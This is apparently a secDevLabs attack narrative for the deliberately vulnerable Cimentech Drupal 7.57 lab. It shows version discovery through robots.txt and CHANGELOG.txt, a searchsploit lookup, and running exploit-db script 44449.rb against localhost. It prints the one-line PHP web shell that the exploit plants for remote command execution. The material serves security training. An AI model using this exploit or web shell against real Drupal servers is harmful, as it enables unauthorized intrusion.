




# Attack Narrative - Cimentech
The main goal of this document is to describe how a malicious user could exploit a vulnerability, intentionally installed on Cimentech from secDevLabs, to obtain a remote code execution.

If you don't know [secDevLabs] or this [intended vulnerable web application][2] yet, you should check them before reading this narrative.

---
## 👀

It's possible to reach the server's web application from the standard HTTP port 80, as shown by the image below:


Afterwards, by having a look at the `/robots.txt` file, it's possible to find the `CHANGELOG.txt` file in the `Disallow` field, as depicted by the image below:



When accessed, an indication of the version of the Content Management System (Drupal) can be found, as show below:



Having the CMS version, it's possible to check on [exploit-db][3] if there are any exploits associated to that version, in this case, Drupal 7.57. The results of the search are depicted on the image below:


By using [searchsploit](https://www.exploit-db.com/searchsploit) tool, an attacker could also find this same result via terminal. To install it, simply type the following in your OSX terminal:

```sh
brew install exploitdb
```

Then simply search for the version of the CMS found:

```sh
searchsploit drupal 7.
```

If you are using OSX, this command would help you make a copy of the exploit to your /tmp folder:

```
cp /usr/local/opt/exploitdb/share/exploit-database/exploits/php/webapps/44449.rb /tmp
```

## 🔥

Running the malicious Ruby code, we have evidence that a remote code execution is possible on the web server, using the following commands as shown below:

```sh
ruby /tmp/44449.rb http://localhost
```



The exploit works by adding into the server a malicious `s.php` wich allows remote code execution on it via following malicious content: 

```php
<?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
```

Using the exploit's "fake shell", we can type a command just like `whoami` to verify that we indeed have a RCE on the server, as shown by the image:




[secDevLabs]: https://github.com/globocom/secDevLabs
[2]: https://github.com/globocom/secDevLabs/tree/master/owasp-top10-2017-apps/a9/Cimentech
[3]: https://www.exploit-db.com/
